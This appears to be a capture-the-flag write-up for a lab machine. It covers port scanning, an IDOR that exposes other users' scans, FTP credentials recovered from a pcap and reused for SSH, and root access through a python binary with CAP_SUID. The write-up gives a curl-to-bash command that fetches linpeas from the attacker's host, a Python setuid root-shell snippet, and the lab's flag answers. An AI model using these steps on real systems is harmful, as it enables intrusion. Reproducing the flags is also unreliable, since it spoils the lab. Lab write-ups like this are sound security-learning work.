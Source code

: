 # Tasks

[**1. How many TCP ports are open?**](#task-1)

[**2. After running a "Security Snapshot", the browser is redirected to a path of the format ```/something/id```, where ```id``` represents the id number of the scan. What is the ```something```?**](#task-2)

[**3. Are you able to get to other users' scans?**](#task-3)

[**4. What is the ID of the PCAP file that contains sensative data?**](#task-4)

[**5. Which application layer protocol in the pcap file can the sensetive data be found in?**](#task-5)

[**6. We've managed to collect nathan's FTP password. On what other service does this password work?**](#task-6)

[**7. User Flag**](#user-flag)

[**8. What is the full path to the binary on this machine has special capabilities that can be abused to obtain root privileges?**](#task-8)

[**9. Root Flag**](#root-flag)

# Tools Used

- nmap
- gtfobins (kind of)

# Skills used

- Exploiting _IDOR_
- Little bit of forensics (checking _pcap_ traffic for credentials, pretty much it lmao)
- Searching for files with _SUID_ bit set and exploiting that

# Solutions

## Task 1

**Command:**

```
nmap -sCV [IP Address]
```

![image](https://github.com/user-attachments/assets/98695f42-0e02-4f68-9d4a-3e47b0d589ca)

**Answer: 3**

## Task 2

Just go to the website:

![image](https://github.com/user-attachments/assets/b3d0014a-1777-499c-ac22-5a133283f4bf)

That's not the landing page but the page that we need to go to find the answer, looks like an _IDOR_ might be possible.

**Answer: data**

## Task 3

![image](https://github.com/user-attachments/assets/e4430975-b9ed-43a1-895b-255b11708962)

Yes, _IDOR_ was very much possible.

**Answer: yes**

## Task 4

_Yes_

![image](https://github.com/user-attachments/assets/c8e73b82-31a1-4e5a-8cce-d9dc37170969)

**Answer: 0**

## Task 5

Check the _pcap_ file, and we'll find this:

![image](https://github.com/user-attachments/assets/d2b071e7-9fab-4e69-b345-6283af83114f)

**Answer: FTP**

Also, we're gonna be using that info a bunch so yeah.

## Task 6

So, remember how _ssh_ was open based on the scan? Yeah, that's what I thought lmao.

**Answer: ssh**

## User Flag

Log in to _ssh_, then you'll find this:

![image](https://github.com/user-attachments/assets/a1ee20f5-a706-4f7c-a223-b37d617af766)

**Answer: c96619759ff232fdc96286ad0d0ce8aa**

## Task 8

Ok so at first, I thought using this was enough to find the vulnerable binary:

```
find / -user root -perm -4000 2>/dev/null
```

This basically looks for all files with escalated privileges. Usually I use that to find vulnerable binaries.

![image](https://github.com/user-attachments/assets/e1a919cd-8bd6-493d-a7d4-1e6b35502a96)

This is what I found, but none of them were useful.

I tried to narrow it down to just _/usr/bin_ to really make sure, but even then, none of the binaries with _SUID_ set are actually useful.

So, I looked at a writeup to see how to find the vulnerable binary, apparently I gotta use _linpeas_ (or another enumeration tool/method).

Basically, the vulnerable binary can set _SUID_ via _CAP_SUID_.

So, here's what I found:

![image](https://github.com/user-attachments/assets/dede01f8-4f88-4fbd-9f8f-575b17fae8a2)

I like how it's even highlighted lol.

Anyways, here's how that happened:

Host _python web server_ in the directory with _linpeas.sh_ in it:

![image](https://github.com/user-attachments/assets/142eb20e-110e-40ba-9940-13aa3c329760)

Curl that in the _ssh_ session to run it, use this to run it directly after curling:

```
curl http://[Host Machine Address]:[Port]/linpeas.sh | bash
```

![image](https://github.com/user-attachments/assets/c5e2ea11-eaf6-4d14-a028-199c96e53d71)

And let it rip

**Answer: /usr/bin/python3.8**

## Root Flag

Use this script (since _python_ is vulnerable):

```
import os
os.setuid(0)
os.system("/bin/bash")
```

You already know the first and third lines (considering that's pretty common to do), but _os.setuid_ should be self explanatory lmao.

Also, we got that from [**GTFObins**](https://gtfobins.github.io/gtfobins/python/#suid), this specifically:

![image](https://github.com/user-attachments/assets/803c48be-a88f-4699-b126-834c7c4125bc)

Should look like this:

![image](https://github.com/user-attachments/assets/c6fb2453-4c61-4ff8-87c6-48f25ee37bdf)

Anyways, here's the flag:

![image](https://github.com/user-attachments/assets/5c1ad47f-6b86-4754-9d2d-0f5cc8cda986)

**Answer: 8d947f4a0f87dde1f469156dfa2fc22e**
